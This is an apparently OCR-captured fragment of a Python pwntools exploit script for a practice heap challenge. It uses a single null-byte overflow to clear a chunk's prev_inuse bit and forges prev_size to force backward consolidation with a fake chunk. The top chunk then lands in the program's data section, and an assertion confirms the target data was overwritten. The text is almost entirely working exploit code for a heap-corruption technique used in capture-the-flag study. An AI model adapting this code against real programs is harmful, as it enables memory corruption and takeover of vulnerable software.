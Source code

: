 ```python=

# Single null-byte overflow from the "overflow" chunk into the LSB of the "victim" chunk's size field.
# This clears the "victim" chunk's prev_inuse bit.
# Set the "victim" chunk's prev_size field to the delta between the "victim" chunk and the fake chunk.
prev_size = (heap + 0x90) - elf.sym.user
edit(overflow, b'Y'*0x80 + pack(prev_size))

# Free the "victim" chunk to trigger backward consolidation with the fake chunk.
# Forward consolidation merges the fake chunk with the top chunk.
free(victim)

# If unable to merge with the top chunk, a 2nd edit of the fake chunk's size field is required at this point
# to satisfy the unsortedbin size sanity check (not possible with this pwnable).

# The top chunk now resides in the program's data section.
# Request a chunk from it and overwrite the target data.
data_section = malloc(0x88)
edit(data_section, p64(0)*2 + b"Much win!")

# Confirm the target data was overwritten.
io.sendthen(b"target: ", b"4")
target_data = io.recvuntil(b"\n", True)
assert target_data == b"Much win!"
quit()

# =============================================================================

io.interactive()

```
:::
